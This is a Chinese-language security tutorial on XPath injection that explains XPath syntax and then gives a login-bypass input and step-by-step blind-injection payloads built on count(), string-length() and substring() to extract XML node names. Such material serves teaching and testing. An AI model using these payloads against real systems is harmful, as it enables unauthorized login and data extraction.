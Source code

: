 #  XML的Xpath注入攻击技术研究二  
NEURON  SAINTSEC   2025-06-12 09:40  
  
 XPath注入攻击，是指利用XPath 解析器的松散输入和容错特性，能够在 URL、表单或其它信息上附带恶意的XPath 查询代码，以获得权限信息的访问权并更改这些信息。Xpath注入攻击本质上和SQL注入攻击是类似的，都是输入一些恶意的查询等代码字符串，从而对网站进行攻击。  
  
XPath 即为 XML 路径语言，它是一种用来确定 XML（标准通用标记语言的子集）文档中某部分位置的语言。XPath 基于 XML 的树状结构，有不同类型的节点，包括元素节点，属性节点和文本节点，提供在数据结构树中找寻节点的能力，可用来在 XML 文档中对元素和属性进行遍历。XPath 是一门在 XML 文档中查找信息的语言，类比来看， XML 为数据库，XPath 为 SQL语言，用于查询数据。所以XPath和SQL类似，也存在注入的攻击方式。  
  
  
**#****0****1**  
  
  
**「 Xpath基本术语 」**  
  
  
  
XPath术语节点在 XPath 中，有七种类型的节点：元素、属性、文本、命名空间、处理指令、注释以及文档（根）节点。XML 文档是被作为节点树来对待的。树的根被称为文档节点或者根节点。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTYeZC1S1P2EwFyO7VEiblxUJwqcufZX5Exys4SnKmc9BzfDTRxGrfV90V97CCibwV0e6FrMtL7R9Mw/640?wx_fmt=png "")  
  
###   
  
**#****02****‍**  
  
  
**「 Xpath语法 」**  
  
###   
  
<table><thead><tr style="border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><th style="border-top-width: 1px;border-color: rgb(204, 204, 204);background-color: rgb(240, 240, 240);min-width: 85px;"><span style="font-size: 14px;"><strong><span leaf="">/</span></strong></span></th><th style="border-top-width: 1px;border-color: rgb(204, 204, 204);background-color: rgb(240, 240, 240);min-width: 85px;"><span style="font-size: 14px;"><strong><span leaf="">从根节点选取</span></strong></span></th><th style="border-top-width: 1px;border-color: rgb(204, 204, 204);background-color: rgb(240, 240, 240);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">*****</span></span></th><th style="border-top-width: 1px;border-color: rgb(204, 204, 204);background-color: rgb(240, 240, 240);min-width: 85px;"><span style="font-size: 14px;"><strong><span leaf="">匹配任何元素节点</span></strong></span></th></tr></thead><tbody><tr style="border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">//</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">全局匹配</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">@*</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">匹配任何属性节点</span></span></td></tr><tr style="border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">.</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">选取当前节点</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">|</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">选取若干个路径</span></span></td></tr><tr style="border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">..</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">选取当前节点的父节点</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">node()</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">匹配任何一个节点</span></span></td></tr><tr style="border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">@</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">选取属性</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">/*[1]</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">选取匹配到的第一个节点</span></span></td></tr><tr style="border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">//book</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">选取所有 book 子元素</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">//@lang</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">选取名为 lang 的所有属性</span></span></td></tr><tr style="border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">//*</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">选取文档中的所有元素</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">//title[@*]</span></span></td><td style="border-color: rgb(204, 204, 204);min-width: 85px;"><span style="font-size: 14px;"><span leaf="">选取所有带有属性的 title 元素</span></span></td></tr></tbody></table>  
#   
  
**#****03****‍**  
  
  
**「 Xpath注入 」**  
  
#   
  
简单了解了Xpath的原理,接着我们来看Xpath的注入攻击。  
  
**首先来看一段代码案例。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTYeZC1S1P2EwFyO7VEiblxUDHKj5XR5BJ5iaOGKpmnIsa11LvWhenXSosToM4doUoEOe3zekZicpia6g/640?wx_fmt=png "")  
  
这里我们可以直接使用万能密码来进行绕过。  
  
这段测试代码的查询语句：  
```
/root/users/user[username/text()='' and password/text()=‘’]
```  
  
和sql注入类似，考虑如下输入：  
```
u=admin' or '1&p=xxx
```  
  
通过or ‘1’ 构造永真。因为XPath中没有注释，所以需要我们精巧地闭合原语句不同语言的XPath解析方式不同。  
  
对于PHP，or关键字前后可以没有空格。  
  
结合sql盲注，我们下一步需要做什么？  
  
使用一些XPath函数，可以逐步的将数据盲注出来。一般的步骤如下：  
```
1.判断根节点数量：count(/)=12.获取根节点名称长度：string-length(name(/*[1]))=43.逐个字符获取根节点名称：substring(name(/*[1]),1,1)='r'substring(name(/*[1]),2,1)='o'substring(name(/*[1]),3,1)='o'substring(name(/*[1]),4,1)='t'4.判断下一级节点数量count(/root/*)…
```  
  
那么如果我们打环境中无回显且无法报错。  
  
就需要使用盲注。  
```
查询根节点下的节点个数'or count(/)=1  or ''='  ###根节点数量为1'or count(/*)=1 or ''='  ##根节点下只有一个子节点查询根节点下的节点长度'or string-length(name(/*[1]))=8 or ''='查询根节点下的节点名称'or substring(name(/*[1]), 1, 1)='a'  or ''=' 'or substring(name(/*[1]), 2, 1)='c'  or ''=' 'or substring(name(/*[1]), 8, 1)='s'  or ''=' 
```  
```
查询accounts节点下的节点 'or count(/accounts)=1 or ''='  /accounts节点数量为1 'or count(/accounts/user/*)>0 or ''='  /accounts下有两个节点 'or string-length(name(/accounts/*[1]))=4  or ''='  第一个子节点长度为4 'or substring(name(/accounts/*[1]), 1, 1)='u' or ''='  第一个子节点名称为user  
```  
```
查询user节点下的节点'or count(/accounts/user)=2  or ''='    user节点有两个'or substring(name(/accounts/user[position()=1]/*[1]), 1, 1)='u'  or ''=' 'or substring(name(/accounts/user[position()=1]/*[1]), 1)='username'  or ''=' 
```  
  
下面是一个简单的脚本。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTYeZC1S1P2EwFyO7VEiblxUum1FaDq67JF9UqAyGhT9K8S8hplnLoP0pXGUHXVFsBOjDvTEnq0T1A/640?wx_fmt=png "")  
  
  
